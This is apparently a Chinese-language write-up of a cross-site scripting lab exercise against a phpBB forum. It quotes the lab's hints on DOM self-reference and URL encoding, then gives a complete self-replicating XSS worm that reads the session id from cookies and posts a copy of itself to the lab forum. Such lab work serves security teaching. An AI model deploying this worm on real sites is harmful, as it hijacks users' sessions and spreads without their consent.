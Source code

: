 > 1. 发布伪造信息的JavaScript程序已经是该网页的一部分了。因此，蠕虫代码可以使用DOMapi从网页中检索自己的副本。下面给出了一个使用DOMapi的例子。此代码获取其自身的一个副本，并将其显示在一个警报窗口中：
>
>    ```html
>    <script id=worm>
>    var strCode = document.getElementById("worm");
>    alert(strCode.innerHTML);
>    </script>
>    ```

> 2. URL编码：所有通过HTTP传输的消息都使用URL编码，即根据URL编码方案将空格等所有非ascii字符转换为特殊代码。在蠕虫代码中，要在phpBB论坛中发布的消息应该使用URL编码进行编码。 
>
> 转义函数可用于对字符串进行URL编码。下面给出了一个使用编码函数的例子。
>
> ```html
> <script>
> var strSample = "Hello World";
> var urlEncSample = escape(strSample);
> alert(urlEncSample);
> </script>
> ```

> 3.在URL编码方案下，使用“+”符号来表示空间。在JavaScript程序中，“+”同时用于算术操作和字符串连接操作。为了避免这种歧义，您可以使用`concat`函数进行字符串连接，并避免使用加法。对于练习中的蠕虫代码，您不必使用附加内容。如果必须添加一个数字（例如+5），则可以使用减法（例如`a-(-5)`）。

根据其提示我们写出对应代码。代码中所有的+都会被转义。

```html
<script id=worm>
  //构造一个蠕虫代码的副本，包括脚本标记。
  scriptValue = document.getElementById("worm");
  scriptValue = scriptValue.childNodes[0].nodeValue;
  var sc1 = "<script id=worm>";
  var sc12 = sc1.concat(scriptValue);
  scriptValue = sc12.concat("<\/script>");
  scriptValue = escape(scriptValue);
  var Ajax = null;
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var c = document.cookie;
  var i = c.indexOf("sid=");
  var s1 = "subject=XSSSelfWorm&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000&message=";
  var s3 = "&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=";
  var s5 = "&f=1&post=Submit";
  var s12 = s1.concat(scriptValue); // 其最为关键的自我复制，即输出的内容是它自己
  var s34 = s3.concat(c.slice(i - (-4), i - (-36)));
  var s1234 = s12.concat(s34);
  var content = s1234.concat("&f=1&post=Submit");
  Ajax.send(content);
</script>
```
